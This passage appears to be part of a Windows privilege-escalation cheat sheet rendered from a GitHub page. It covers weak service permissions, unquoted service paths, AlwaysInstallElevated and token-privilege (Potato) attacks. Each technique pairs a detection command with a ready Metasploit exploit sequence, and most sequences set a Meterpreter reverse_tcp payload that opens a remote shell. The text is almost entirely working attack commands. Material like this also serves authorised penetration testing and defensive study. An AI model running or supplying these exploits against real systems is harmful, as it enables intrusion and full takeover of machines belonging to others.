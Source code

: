 - **Exploit**
    

```text
use exploit/windows/local/service_permissions
set SESSION <id>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

**Unquoted Service Path**

- **Detect**
    

```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\\Windows\\"
```

- **Exploit**
    

```text
use exploit/windows/local/trusted_service_path
set SESSION <id>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

**AlwaysInstallElevated**

- **Detect**
    

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

- **Exploit**
    

```text
use exploit/windows/local/always_install_elevated
set SESSION <id>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

**Token Privileges (Potato Attacks)**

- **Detect**
    

```cmd
whoami /priv
```

- **Exploit**
    

```text
getsystem
# or
use exploit/windows/local/ms16_075_reflection
set SESSION <id>
exploit
```
